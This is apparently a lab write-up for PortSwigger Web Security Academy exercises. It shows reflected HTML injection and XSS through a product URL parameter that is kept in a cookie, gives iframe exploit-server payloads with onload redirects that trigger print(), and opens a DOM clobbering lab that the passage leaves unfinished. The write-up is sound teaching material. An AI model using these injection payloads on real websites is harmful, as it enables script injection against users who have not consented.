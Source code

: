 Now we can try to do a HTML injection:

```
https://0a55007704a22642802ada7300b2001c.web-security-academy.net/product?productId=2&'><h1>test</h1>
```

But we don't see nothing, why?, because the content is saved in the cookie when go to Home.

HTML injection works, if we try to execute JS code:

```
https://0a55007704a22642802ada7300b2001c.web-security-academy.net/product?productId=2&'><script>alert(0)</script>
```

Nice!, we found a XSS. Next step, exploit server.

In this case we have to redirect one time inside the page, you have to take care because you can triggered an XSS if you use the same product, this is because the cookie because the cookie has been stored you can delete using another product and go home.

```html
<iframe src="https://0a55007704a22642802ada7300b2001c.web-security-academy.net/product?productId=5&'><script>print()</script>" onload="if(!window.x)this.src='https://google.es';window.x=1;">
</iframe>
```

In this case with `onload` we're redirecting to google, but we add a conditional for avoid a infinite loop. If window.x doesn't have nothing do the redirect, then set the window.x to some value.

```html
<iframe src="https://0a55007704a22642802ada7300b2001c.web-security-academy.net/product?productId=5&'><script>print()</script>" onload="if(!window.x)this.src='https://0a55007704a22642802ada7300b2001c.web-security-academy.net';window.x=1;">
</iframe>
```

# Exploiting DOM clobbering to enable XSS

> [!IMPORTANT]
> To solve this lab you have to use Chrome.

DOM clobbering is a type of injection that allow an attacker to insert **bening non-script HTML**. The attacker create some html code and then use the js code to execute malicious javascript code.

In the comment section we see that html injection works, but what happens if we try to inject javascript, for example an image with onerror. Yes, doesn't work, if we open the inspector we don't see the onerror attribute, but if you open the source code of the page you see three `script src` but the importants are:

- `domPurify.js` -> is a DOM-only XSS sanitizer for HTML. This may be the reason why onerror attribute has been removed.
- `loadCommentsWithDomClobbering.js` -> JavaScript code that load the comments.

If we inspect the code we see this suspicous lines, why are suspicious? because is using **window.defaultAvatar** and then injecting a property(avatar) in to the DOM.
